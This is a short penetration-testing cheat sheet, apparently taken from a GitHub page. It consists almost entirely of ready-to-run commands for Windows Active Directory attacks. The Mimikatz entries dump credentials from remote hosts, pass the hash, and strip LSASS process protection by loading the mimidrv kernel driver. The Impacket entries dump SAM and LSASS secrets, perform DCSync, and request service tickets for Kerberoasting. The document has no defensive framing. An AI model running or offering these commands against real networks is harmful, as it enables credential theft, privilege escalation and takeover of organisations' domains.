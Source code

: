 ## Mimikatz.ps1 Dump remote machine
```
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

## Mimikatz pth
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nthash> /run:powershell.exe"'
```

## Disable PPL (Lsass Protection) sc.exe - 1
```
cmd /c "sc create mimidrv binPath= C:\windows\tasks\mimidrv.sys type= kernel start= demand"
```

## Disable PPL (Lsass Protection) sc.exe - 2
```
cmd /c "sc start mimidrv"
```

## Disable PPL (Lsass Protection) - 3
```
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
```

# Impacket
## Recon Find Delegation
```
impacket-findDelegation -target-domain <domain> -dc-ip <dc_ip> <domain>/'<username>':'<password>'
```


## secretsdump.py SAM and Lsass
```
impacket-secretsdump <domain>/'<username>':'<passowrd>'@<ip>
```

## Recon Get SPN
```
impacket-GetUserSPNs -request -dc-ip <dc-ip> <domain>/'<username>':'<password>'
```

## secretsdump.py DCSync using ticket
```
impacket-secretsdump <dc_ip> -k -no-pass -just-dc
```
